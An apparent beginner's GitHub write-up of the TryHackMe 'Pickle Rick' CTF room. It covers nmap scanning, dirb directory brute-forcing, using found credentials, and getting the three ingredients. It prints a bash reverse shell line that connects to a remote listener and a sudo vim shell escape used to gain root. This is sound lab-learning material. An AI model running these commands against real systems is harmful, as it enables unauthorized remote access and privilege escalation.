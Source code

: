 # TryHackMe-PickleRick-CTF
This is a simple, fun, and beginner CTF. This is the first CTF room that I have completed on TryHackMe. It involves finding three secret ingredients to help Rick turn back into a human after turning himself into a pickle.

Here, I will highlight a quick walkthrough/step-by-step instruction for how I completed the room. Here on the README, I won't include exact commands I used in order to find the ingredients, but I will include hints to help (if you want the exact lines I used, I will create a cheatsheet with more step-by-step). As I stated before, this was my first room that I completed, so I had the help of some peers to help guide me through the processes. I did go a little overkill in this room as I tried to escalate privileges which was completely unecessary. Now, I will go forward with a walkthorugh as well as screenshots with how things should look. Finally, like I stated before, this is just what I did personally to complete the room.Good luck! 

![picklerick](https://user-images.githubusercontent.com/117850176/201009495-589059c2-e925-43ba-9269-6907607139e3.png)






<img width="556" alt="Screen Shot 2022-11-09 at 10 41 16 PM" src="https://user-images.githubusercontent.com/117850176/201009776-cfc2b1ff-b671-412a-9027-1132ca9c1bb2.png">

The first step to completing this machine is turning on the machine itself, this can be done by selecting task 1 and then pressing the green start machine button. Give this a minute and your personal IP will show up under the "active machine" heading - Keep this IP handy as you will be using this extremely frequently throughout the CTF.


Firstly, I wanted to see what the site would look like. To do this, I just entered the given IP on a firefox (or any other web browswer of your choice) into the search bar. Then a Rick and Morty themed site appeared.

(Put SS of site)

The first step that I took was to use a nmap scan with the given IP on the tryhackme. To do this, I started a command window in kali. Once the window was opened I used the nmap command and found that ports 22 and 80 were both running. 

(Put ss of nmap being used and port 22 and 80 running)

After seeing this, another one of the first steps that I did was to inspect the sites source code to see if I was able to find any hints that were left within the source code. Within the source code, there is a commented section of code that gave a username, keep this username in mind as this is essential information. I won't be giving the username here, so explore the source code and it should make itself apparent to you. 

Upon finding this username, this gave me the insight to attempt to find a password, because usernames and passwords go hand in hand. I then used the dirb command, here it is:
- dirb command
Dirb command is a web content scanner. It looks for existing or hidden web objects, making it a brute force strategy. After using this command I found a list of different directories. The directories that I found will be included in a screenshot below. I won't list eh direct dirb command that I used here but it will be located in the cheat sheet. I browsed each directory found on the website by using /(directory name). After exploring these different directories and I found a password, again this password will be located in the cheatsheet. 

Within the directories given, I was also directed to a login page. If you explore the directories given, you should find this releatively easily. Using the credentials we found in the earlier steps, you should be able to enter the login page. After logging in, you will be presented with a command line. 

(Put ss of login page, command line)

After seeing that a command line was given, I decided to host a netcat listener on my local kali machine on port 1234. I used this port because I knew nothing would be communicating on it. The exact command that I used will be provided via the chaeatsheet.11 Netcat is a command for reading and writing data between two computers. Next, I used a bash reverse shell command that I found on gtfobins, since I found this on a third party site, I will provide the command here. 
- bash -c 'exec bash -i &>/dev/tcp/$RHOST/$RPORT <&1'
After successfully running the reverse bash, I was given a shell through the Picklerick site, giving me access. 

Once I had the reverse shell running on my local kali machine, I just used a simple ls command to see what folders existed. I seen that there was a text file that may contain an ingredient. I then used another simple cat command to see the contents of this file. This gave me the first ingredient needed to answer. 

When I did the ls command there were other folders that I could explore. I decided to explore the home folder. To do this, I had to first change the directory. This can be done by using cd home. Once in the home folder, I once again used the ls command to see the contents of the home folder/directory. I seen a folder named rick and ubuntu. The rick folder seemed more appealing to me so Is into this folder. In the rick folder, there was a file straight up title second ingredient. Using the cat command once again, the second ingredient was found. 

Next, I wanted to gain root acess to the shell. I decided to use sudo -l and found that no password was needed and I could run any command. I then used another shell command found on gtfobins. This is it:
- sudo -u root vim -c ':!/bin/sh'
Using this command gave me root access. Once again, I did a ls command and seen a file called 3rd. I used the cat command one last time and this gave me the third and final ingredient. 

All in all, the steps seem very repetetive in this CTF. I had a great time completing this for my first one. I am looking forward to completing more and seeing what other tools I am able to use. 

The answers for this for will be located on the cheatsheet, but I HIGHLY reccomended just using trial and error. As you will learn a lot more and have a more fun time. 

Thank you for reading my write up! I want to document most of, if not, all of my CTFs so that I may keep a journal and others can also view it. Personally for me it was hard to get started at first. But having people help me along the way was so beneficial, so if I can be that for someone else that would be awesome. Anyway, goodluck on any CTFs you look to tackle and happy hacking!
